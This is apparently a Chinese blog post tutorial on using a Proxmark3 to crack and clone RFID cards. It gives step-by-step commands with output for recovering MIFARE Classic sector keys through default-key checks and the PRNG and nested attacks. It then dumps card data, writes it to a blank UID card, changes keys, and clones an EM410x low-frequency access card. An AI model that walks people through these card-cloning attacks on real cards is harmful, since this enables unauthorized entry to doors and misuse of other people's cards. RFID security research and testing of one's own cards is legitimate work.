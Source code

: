 ```yaml
---
layout: post
category: 运维
---
```

![](/assets/img/15517861987812.jpg)

# 1 MAC链接设备

## 1.1 安装
 
```
#linux安装
/usr/bin/ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"

#mac 安装
# 添加 proxmark3 仓库
brew tap proxmark/proxmark3
# 安装稳定版本 proxmark3 客户端
brew install proxmark3

```


## 1.2  链接设备
```
查看当前设备
➜  ~ ls /dev/cu*
/dev/cu.Bluetooth-Incoming-Port /dev/cu.usbmodem14201

#链接设备
➜  ~  proxmark3 /dev/cu.usbmodem14201


#测试电压
proxmark3> hw  tune

Measuring antenna characteristics, please wait.........
# LF antenna: 70.95 V @   125.00 kHz
# LF antenna: 53.62 V @   134.00 kHz
# LF optimal: 73.15 V @   122.45 kHz
# HF antenna: 30.27 V @    13.56 MHz
Displaying LF tuning graph. Divisor 89 is 134khz, 95 is 125khz.
```
# 2 卡片分类

![-w880](/assets/img//16004289353343.jpg)


![-w930](/assets/img//16004288903081.jpg)

# 3 破解
## 3.1 高频卡破解
```
#查看卡id
hf 14a reader



# 内置密码进行探测
proxmark3> hf mf chk *1 ? t

No key specified, trying default keys
chk default key[ 0] ffffffffffff
chk default key[ 1] 000000000000
chk default key[ 2] a0a1a2a3a4a5
chk default key[ 3] b0b1b2b3b4b5
...
chk default key[16] 533cb6c723f6
chk default key[17] 8fd0a4f256e9

To cancel this operation press the button on the proxmark...
--o
|---|----------------|---|----------------|---|
|sec|key A           |res|key B           |res|
|---|----------------|---|----------------|---|
|000|  000000000000  | 1 |  ffffffffffff  | 0 |
|001|  000000000000  | 1 |  ffffffffffff  | 0 |
|002|  000000000000  | 1 |  ffffffffffff  | 0 |
...
|013|  ffffffffffff  | 0 |  ffffffffffff  | 0 |
|014|  ffffffffffff  | 0 |  ffffffffffff  | 0 |
|015|  ffffffffffff  | 0 |  ffffffffffff  | 0 |
|---|----------------|---|----------------|---|
Found keys have been transferred to the emulator memory


1.通过 PRNG 漏洞攻击，无条件获得 0 扇区密匙
hf mf mifare

2.利用 MFOC 漏洞，用已知扇区密匙求所有扇区密匙
hf mf nested 1 0 A ffffffffffff d

Nested statistic:
Iterations count: 81
Time in nested: 62.543 (0.772 sec per key)
|---|----------------|---|----------------|---|
|sec|key A           |res|key B           |res|
|---|----------------|---|----------------|---|
|000|  757461626c65  | 1 |  ffffffffffff  | 1 |
|001|  757461626c65  | 1 |  ffffffffffff  | 1 |
|002|  757461626c65  | 1 |  ffffffffffff  | 1 |
|003|  757461626c65  | 1 |  ffffffffffff  | 1 |
|004|  757461626c65  | 1 |  ffffffffffff  | 1 |
|005|  757461626c65  | 1 |  ffffffffffff  | 1 |
|006|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|007|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|008|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|009|  474249439904  | 1 |  474249439904  | 1 |
|010|  474249439904  | 1 |  474249439904  | 1 |
|011|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|012|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|013|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|014|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|015|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|---|----------------|---|----------------|---|
Printing keys to binary file dumpkeys.bin...


3.用破解出的密匙把卡片数据读出导入电脑(dumpdata.bin)
hf mf dump

4.转换 dumpdata.bin 文件到 xxxxx.eml 格式
script run dumptoemul.lua

5.写入到白卡
hf mf cload F075F95D

1.reset uid card
script run formatMifare


方法2

1.将dumpdata.bin写回卡片(密码不会改变)
hf mf restore

2.修改密码
hf mf wrbl 43 B FFFFFFFFFFFF 474249439904ff078000474249439904
```

![-w621](/assets/img//15517881985229.jpg)

## 3.2 低频卡破解


```
proxmark3> lf search
NOTE: some demods output possible binary
  if it finds something that looks like a tag
False Positives ARE possible


Checking for known tags:

EM410x pattern found:

EM TAG ID      : 1900B6E8C5

Possible de-scramble patterns
Unique TAG ID  : 98006D17A3
HoneyWell IdentKey {
DEZ 8          : 11987141
DEZ 10         : 0011987141
DEZ 5.5        : 00182.59589
DEZ 3.5A       : 025.59589
DEZ 3.5B       : 000.59589
DEZ 3.5C       : 182.59589
DEZ 14/IK2     : 00107386169541
DEZ 15/IK3     : 000652842178467
DEZ 20/ZK      : 09080000061301071003
}
Other          : 59589_182_11987141
Pattern Paxton : 432744133 [0x19CB26C5]
Pattern 1      : 7975761 [0x79B351]
Pattern Sebury : 59589 54 3598533  [0xE8C5 0x36 0x36E8C5]

Valid EM410x ID Found!
Waiting for a response from the proxmark...
You can cancel this operation by pressing the pm3 button
Command timed out


proxmark3> lf hid clone 1900B6E8C5
#db# DONE!
```


# 参考资料
RFID 低频卡安全分析  https://cloud.tencent.com/developer/article/1180090
Proxmark3 Easy破解门禁卡学习过程 https://lzy-wi.github.io/2018/07/26/proxmark3/
Proxmark3（PM3）入门使用 https://blog.2broear.com/notes/proxmark3-pm3-record_200508
使用pm3及变色龙获取加密卡信息写入小米手环NFC版 https://post.smzdm.com/p/777188/

使用PM3读取银行闪付卡  http://pm3.echo.cool/index.php/2019/02/23/%e4%bd%bf%e7%94%a8pm3%e8%af%bb%e5%8f%96%e9%93%b6%e8%a1%8c%e9%97%aa%e4%bb%98%e5%8d%a1/

博客： http://pm3.echo.cool/index.php/category/pm3/page/2/

在 macOS 上使用 Proxmark3 https://blog.meow.page/archives/proxmark3-on-mac/

低频卡t5577写入 https://blog.meow.page/archives/Clone-access-card-of-office/

在Linux系统上使用proxmark3 https://blog.meow.page/archives/use-proxmark3-on-linux/

Proxmark3 Mifare Classic 1k Weak / Hard: https://guillaumeplayground.net/proxmark3-hardnested/